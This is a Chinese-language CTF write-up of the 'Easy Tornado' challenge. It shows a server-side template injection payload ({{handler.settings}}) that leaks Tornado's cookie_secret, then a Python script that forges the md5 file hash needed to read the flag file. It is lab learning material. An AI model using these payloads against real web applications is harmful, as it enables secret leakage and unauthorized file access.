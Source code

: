 ### buuoj_[护网杯 2018]Easy Tonado

首先先看一下每个文件里面的内容

> /flag.txt
> flag in /fllllllllllllag
>
> /welcome.txt
> render
>
> /hints.txt
> md5(cookie_secret+md5(filename))

并且查看文件时，可以看见url格式是

```
file?filename=/flag.txt&filehash=4543b2a987e42dfb928c957aa9a0100b
```

而且猜测filehash的值就是hints.txt中的加密方式

但是如何获得cookie-secret呢

看到有render，猜测可能有ssti注入

从url下手，修改url的内容，把filehash的部分直接删掉，发现报错了

![](https://pic.imgdb.cn/item/61014ed55132923bf8641e17.jpg)

但是此时可以看到url变成了这个样子

```
error?msg=Error
```

尝试读一下

```
error?msg={{1*1}}
```

不太行，毫希昂杯过滤了。。。。好了gg了，看看大佬的wp

> Tornado框架
>
> 在Tornado的前端页面模板中，Tornado提供了一些对象别名来快速访问对象，具体定义可以[参考Tornado官方文档](http://tornado.readthedocs.org/en/latest/guide/templates.html#template-syntax)！
>
> 这里我想将的是Handler这个对象，Handler指向的处理当前这个页面的RequestHandler对象！

```
error?msg={{handler.settings}}
```

成功得到cookie-secret，然后看到这个格式，用md5加密一下

![](https://pic.imgdb.cn/item/6101561c5132923bf87ba105.jpg)

```
import hashlib

def md5encode(code):
    m = hashlib.md5(str(code).encode("utf-8"))

    return m.hexdigest()

filename = '/fllllllllllllag'
cookie_secret = '2848af1e-24ea-4264-8003-a563009d621e'
a = md5encode((cookie_secret + md5encode(filename)))
print(a)
```

```
构造playload：file?filename=/fllllllllllllag&filehash=92a27f6dd76e16837d512c3adda41e00
```

得到flag